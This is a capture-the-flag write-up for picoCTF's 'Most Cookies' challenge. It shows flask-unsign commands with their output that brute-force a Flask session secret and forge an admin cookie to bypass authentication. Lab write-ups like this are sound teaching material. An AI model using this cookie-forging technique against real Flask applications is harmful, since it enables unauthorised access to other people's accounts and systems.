




# Challenge: [Most Cookies](https://play.picoctf.org/practice/challenge/177)
150 Points
# Description
Alright, enough of using my own encryption. Flask session cookies should be plenty secure! [server.py](https://mercury.picoctf.net/static/26760321c25c9659050a37a707247690/server.py) 
[http://mercury.picoctf.net:52134/](http://mercury.picoctf.net:52134/)
# Solution
Given that the name of challenge, I have to manipulate the cookie. Let's analyze it using BurpSuite.



One part of it, when decoded, reveals the content I entered **snickerdoodle**.

In the source code, to tamper I need to enter **{"very_auth":"admin"}** for the first part in cookie



The program is using Flask to create cookies, and the secret key part is taken from a list available in the code.



The flow is cleared, I use Flask-Unsign to decode the cookie taken from BurpSuite to discover the secret key and encode it again with the new content.

```sh
┌──(kali㉿kali)-[~/picoCTF/Web/Most_Cookies]
└─$ flask-unsign --unsign --cookie "eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.Zd9GlA.6kwWqcpRAFZb6pwCspxB5p1hQjY" -w wordlist 
[*] Session decodes to: {'very_auth': 'snickerdoodle'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 28 attemptscadamia
'peanut butter'
                                                                                                       
┌──(kali㉿kali)-[~/picoCTF/Web/Most_Cookies]
└─$ flask-unsign --sign --cookie '{"very_auth":"admin"}' --secret "peanut butter"
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Zd9Hdg.iX08y-4CQjvxXQwvuOnGT2v3kws
```

Send it in the Repeater to get the flag.

